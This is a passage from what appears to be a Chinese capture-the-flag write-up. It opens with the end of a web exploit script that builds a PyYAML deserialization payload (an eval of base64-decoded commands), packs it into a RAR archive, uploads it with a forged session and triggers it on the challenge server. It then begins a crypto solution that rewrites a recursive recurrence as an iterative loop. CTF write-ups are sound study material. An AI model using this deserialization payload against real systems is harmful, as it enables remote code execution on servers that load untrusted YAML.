 ``` python

    return f'''
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
    - !!python/name:base64.b64decode
    - ["{command_encode}"]'''

def main():
    dummy_filename = 'monad'
    dummy_filename_md5 = hashlib.md5(dummy_filename.encode()).hexdigest()
    rar = f'.1.rar'
    create_rar(rar, { f'{dummy_filename_md5}.yaml': create_yaml_payload() })

    session = create_session('engine-1')
    url = 'http://eci-2ze2kqsxzki5jel0ux1b.cloudeci1.ichunqiu.com:8888'
    r = requests.post(url + '/upload', cookies={'session': session}, files={'file': open(rar, 'rb')})
    r = requests.get(url + '/display', cookies={'session': session}, params={'file': dummy_filename})

if __name__ == '__main__':
    main()
```

# Crypto (AK)
## crypto162 （二血）

首先，嗯，我们先来看看代码：

``` python
def cal(i, cof):
    if i < 3:
        return i + 1
    else:
        return cof[2] * cal(i-3, cof) + cof[1] * cal(i-2, cof) + cof[0] * cal(i-1, cof)
```

然后一看，垃圾递归，顺手把他改成迭代的：


``` python
MOD = 10 ** 2010
buffer = [1, 2, 3] + [ 0 for _ in range(200000 + 1) ]

s = 0
for cof in cof_t:
    for j in range(3, 200000+1):
        buffer[j] = (cof[2] * buffer[j-3] + cof[1] * buffer[j-2] + cof[0] * buffer[j - 1]) % MOD
    s = (s + buffer[200000]) % MOD
```
